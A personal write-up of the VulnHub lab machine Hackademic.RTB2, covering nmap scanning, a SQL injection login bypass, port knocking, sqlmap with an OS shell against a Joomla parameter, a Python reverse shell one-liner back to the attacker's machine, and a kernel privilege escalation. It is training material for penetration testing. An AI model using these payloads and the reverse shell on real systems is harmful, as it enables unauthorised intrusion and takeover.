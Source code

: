 ```yaml
---
layout: default
title : muzec - Hackademic.RTB2 Writeup
---
```



### Enumeration With Nmap


```
# Nmap 7.91 scan initiated Mon Sep 27 09:18:59 2021 as: nmap -sC -sV -p- -vv -oA nmap 172.16.139.228
Nmap scan report for 172.16.139.228
Host is up, received syn-ack (0.0017s latency).
Scanned at 2021-09-27 09:18:59 WAT for 9s
Not shown: 65534 closed ports
Reason: 65534 conn-refused
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.2.14 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.14 (Ubuntu)
|_http-title: Hackademic.RTB2

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 27 09:19:08 2021 -- 1 IP address (1 host up) scanned in 8.95 seconds
```

Should be easy i guess we are having only one port which is the HTTP port 80 let hit it.

![image](https://user-images.githubusercontent.com/69868171/134919140-b3682aea-4d03-41ec-9e24-1b4932189f4c.png)

Ahhh the demon login page i will say damn because man i was stuck for some hours after trying sql injection, sqlmap man i got nothing you know what is funny man it actually vulnerable to sql injection after checking up write up for the part.

```
username:- ' or 1=1--'
password:- ' or 1=1--'
```


That the sql injection that work i don't why all the payloads i try was not working.

![image](https://user-images.githubusercontent.com/69868171/134920611-715fcaa5-9d7a-4160-9c81-f6dba5f4cd90.png)

Now we are in let check the page source maybe we can get some clues to move on.

![image](https://user-images.githubusercontent.com/69868171/134920796-e32f0c2e-7f62-4b04-9a53-8f605de4e9f9.png)

I think we have something in the source.

![image](https://user-images.githubusercontent.com/69868171/134921480-bbf106a9-ab1b-479d-b937-bef818da0843.png)

It url-encoding so using CyberChef i Url-decode it and we have hex.

![image](https://user-images.githubusercontent.com/69868171/134924569-ef4cbce3-535a-40e0-ab65-bac19fdd8c79.png)

Decoding from hex and we have binary with a hint:- `Knock Knock Knockin' on heaven's door .. :)` .

![image](https://user-images.githubusercontent.com/69868171/134924781-542e1fa8-0ecd-4ef1-a50b-afc65813f5d4.png)

Boom we have the port sequence to knock i will be using nmap to recursively hit the ports using the -r switch.

```
nmap -r -p 1001,1101,1011,1001 172.16.139.230
```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/hackad]
└─$ nmap -r -p 1001,1101,1011,1001 172.16.139.230
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 12:15 WAT
WARNING: Duplicate port number(s) specified.  Are you alert enough to be using Nmap?  Have some coffee or Jolt(tm).
Nmap scan report for 172.16.139.230
Host is up (0.0033s latency).

PORT     STATE  SERVICE
1001/tcp closed webpush
1011/tcp closed unknown
1101/tcp closed pt2-discover

Nmap done: 1 IP address (1 host up) scanned in 1.67 seconds
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/hackad]
└─$ nmap -sV 172.16.139.230                      
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 12:16 WAT
Nmap scan report for 172.16.139.230
Host is up (0.0015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.14 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/hackad]
└─$ nmap -sV 172.16.139.230                      
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 12:16 WAT
Nmap scan report for 172.16.139.230
Host is up (0.0019s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.2.14 ((Ubuntu))
666/tcp open  http    Apache httpd 2.2.14 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.33 seconds
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/hackad]
```

We have a new port open now let try to access it.

![image](https://user-images.githubusercontent.com/69868171/134926638-bc6c36ec-711c-4ed1-bf4f-ae4b2ba0ecd2.png)

Powered by joomla smmooth going through the pages i found something interesting with some strange parameters.

![image](https://user-images.githubusercontent.com/69868171/134926982-c9ba224b-3dca-4a01-9a17-b04cfd3d7375.png)

I decided to test it with sqlmap.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/hackad]
└─$ sqlmap -u "http://172.16.139.230:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3" --dbs   
```

![image](https://user-images.githubusercontent.com/69868171/134927420-c8d30125-7ded-4cca-a6f8-c3a42b98bb91.png)

Boom it vulnerable to SQL injection let try using the os-shell switch onsqlmap with the database joomla.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/hackad]
└─$ sqlmap -u "http://172.16.139.230:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3" -D joomla --os-shell
        ___
```

![image](https://user-images.githubusercontent.com/69868171/134928281-e18ef2aa-e346-4882-b18f-9639264676d3.png)

We have shell smooth right, Now let try and get a proper shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.139.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](https://user-images.githubusercontent.com/69868171/134928879-05902a1d-bd60-4536-9ade-68b86812f913.png)


Now let root it we are taking long man lol.

### Privilege Escalation


![image](https://user-images.githubusercontent.com/69868171/134929499-643852ab-9ab6-4e4c-b93a-e1b874f2eadd.png)

Pretty old versions let hit exploit-db.

![image](https://user-images.githubusercontent.com/69868171/134929701-9fafd1d4-4a72-4c6e-bdde-419340abb127.png)

We have the exploit now let get it onto our taget and compile it.

![image](https://user-images.githubusercontent.com/69868171/134930092-8c71751d-6994-40d5-8521-5be66f92af5d.png)


Ruuning and boom root.

![image](https://user-images.githubusercontent.com/69868171/134930187-9aed9535-1415-4a10-ad31-ae3aca36e971.png)

Getting The Key.txt in the  root folder.


![image](https://user-images.githubusercontent.com/69868171/134930349-d70b785c-7791-4708-935a-27f6d86a74cb.png)

But it in base64 let try and get it out.

![image](https://user-images.githubusercontent.com/69868171/134930446-04ae86b7-76a6-439b-94bb-d465f503fe90.png)

Starting `SimpleHTTPServer` on the target open port 8000 on the target which we can access with the target IP:8000.

![image](https://user-images.githubusercontent.com/69868171/134930753-da12e02e-2e27-46c5-a39f-ecb17d456911.png)

Now let get the Key.txt to decode.

![image](https://user-images.githubusercontent.com/69868171/134930878-60ef21eb-9124-4b0e-a23e-2f1814074745.png)

Using CyberChef we know it a PNG image encode in base64.

![image](https://user-images.githubusercontent.com/69868171/134931070-7d271cef-4720-46e0-bd8a-fc3d17f6dab4.png)

Using CyberChef to convert it back to PNG.

![image](https://user-images.githubusercontent.com/69868171/134931258-1db55a92-354b-415c-a532-2f09fd9e1712.png)

We are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
